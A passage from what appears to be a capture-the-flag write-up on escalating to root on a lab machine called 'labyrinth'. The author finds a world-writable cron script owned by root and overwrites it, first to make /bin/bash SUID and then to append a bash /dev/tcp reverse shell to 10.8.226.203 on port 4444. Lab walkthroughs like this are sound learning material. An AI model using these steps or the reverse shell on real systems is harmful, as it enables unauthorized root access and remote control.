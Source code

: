 Now privesc?

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
bash: /root/.bashrc: Permission denied
```

lets explore Minotaur's home folder....nothing useful

where is that timer they were talking about???

`find / -perm u=s 2> /dev/null`

the process hanged....geez (that shell is not very...stable)...anyway not very useful

Manualy exploring then...we start from `/` folder and we see a `"timers"` folder

```
cd timers
daemon@labyrinth:/timers$ls -al
ls -al
total 12
drwxrwxrwx 2 root root 4096 jún 15 18:01 .
drwxr-xr-x 26 root root 4096 nov 9 13:37 ..
-rwxrwxrwx 1 root root 70 jún 15 18:01 timer.sh
```

we have all permissions on timer.sh

```
cat timer.sh
#!/bin/bash
echo "dont fo...forge...ttt" >> /reminders/dontforget.txt
```

It appends this to the txt file...probably running as a cron task (it updated in live)

But look at the Owner...ROOT

if we add a shell to it we can catch a connection as root...or more simply make it spawn a shell directly

```
echo '
#!/bin/bash
chmod +s /bin/bash
' > timer.sh (or >> to just append)
```

Basically we use the root power of this script to make bash a SUID (as we can)

and now we can just...

`/bin/bash -p`

Ok that did not work for me So i decided to just try the shell too

```
echo '
#!/bin/bash
bash -i >& /dev/tcp/10.8.226.203/4444 0>&1
' >> timer.sh //port 4444
```
